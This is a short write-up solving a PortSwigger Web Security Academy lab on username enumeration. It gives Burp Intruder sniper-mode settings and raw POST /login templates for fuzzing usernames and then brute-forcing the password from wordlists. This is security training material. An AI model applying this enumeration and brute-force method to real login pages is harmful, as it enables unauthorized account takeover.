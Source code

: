 # [Lab: Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)

## Lab

This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Solutions

enumerate username using burp's intruder:

- mode: sniper
- positions:

  ```http
  POST /login HTTP/1.1

  username=§test§&password=test
  ```

- payloads: [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)

- via subtly different responses, we can enumerate existed users:
  ![username-enumeration.png](./../img/lab-4-username-enumeration.png)

find password using burp's intruder:

- mode: sniper
- positions:

  ```http
  POST /login HTTP/1.1

  username=existed_username&password=§test§
  ```

- payloads: [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)
- based on the response, we can find the password
  ![find-password.png](./../img/lab-4-find-password.png)
